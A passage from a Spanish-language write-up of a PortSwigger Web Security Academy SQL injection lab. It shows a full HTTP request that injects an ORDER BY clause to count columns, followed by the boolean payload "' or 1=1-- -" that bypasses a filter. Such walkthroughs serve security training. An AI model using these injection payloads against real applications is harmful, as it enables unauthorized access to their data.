* **Explotación** 

El parámetro ```Category``` es vulnerable. El número total de columnas es 8. En caso de aplicar un ordenamiento con otro número, el servidor devuelve un código de estado 500

```null
GET /filter?category=Clothing'+order+by+8--+- HTTP/2
Host: 0a05008e0409104a817934ca004d002f.web-security-academy.net
Cookie: session=i1BdpziL0QTw3Hwbn7WoLJPacZHPibM5
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

<img src="/img/articulos/sqli-portswigger/3.png" alt="">

En este caso no hay que dumpear ningún dato, si no aplicar una condición booleana verdadera con la sentencia ```' or 1=1-- -```

<img src="/img/articulos/sqli-portswigger/4.png" alt="">

# LAB2
